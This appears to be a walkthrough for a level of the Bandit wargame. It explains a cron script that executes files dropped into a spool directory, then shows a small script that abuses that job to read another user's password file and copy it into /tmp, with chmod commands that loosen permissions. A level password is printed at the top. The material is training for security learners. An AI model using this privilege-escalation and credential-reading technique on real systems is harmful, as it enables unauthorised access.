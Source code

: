 Level password: `0Zf11ioIjMVN551jX3CmStKLYqjk54Ga`

Same first step as the last 2 levels. But the bandit24 crontab script is different:

```sh
cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

```sh
for i in * .*;
```

This loops over each file within the current directory.

```sh
if [ "$i" != "." -a "$i" != ".." ];
```

This skips over files that's named `.` or `..`, which are important directories.

```sh
owner="$(stat --format "%U" ./$i)"
```

This gets the owner of the file to be executed name.

```sh
stat --format "%U" ./$i
```

`stat` displays the file status, `--format "%U"` allows outputting the specified format instead of the default.

```sh
if [ "${owner}" = "bandit23" ]; then
	timeout -s 9 60 ./$i
fi
```

This checks whether the owner of the file is `bandit23`. If it is then it executes it. But it will timeout after 60 seconds. When it timeout, it sends a signal `9` to the process. The 9th signal is the `kill` signal (use `kill -l` to list the signals. Signal `9` is the `KILL` signal).

```sh
rm -f ./$i
```

This force delete the current file being processed.

What we can extract from this script is that this crontab executes any files in the `/var/spool/current_username/foo/` and delete it. Specifically, for files that is owned by user *bandit23* (aka us), it would run the executable for 60 seconds then kill it. This means the script would run with the permissions of user *bandit24*. So we could create our own script and to read the password of bandit24 and write it into a file that we could access:

```sh
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/temp_dir/password.txt
```

Before we could do anything, we need to modify the permission so that the crontab could access the directory that houses the password file, the password file itself, and the permission of the script itself:

```sh
chmod +rx script.sh
chmod +rwx /tmp/temp_dir
chmod +rw password.txt
```

Then we copy the script to the `/var/spool/bandit24/foo/` directory and wait for it to execute:

```sh
cp script.sh /var/spool/bandit24/foo/
```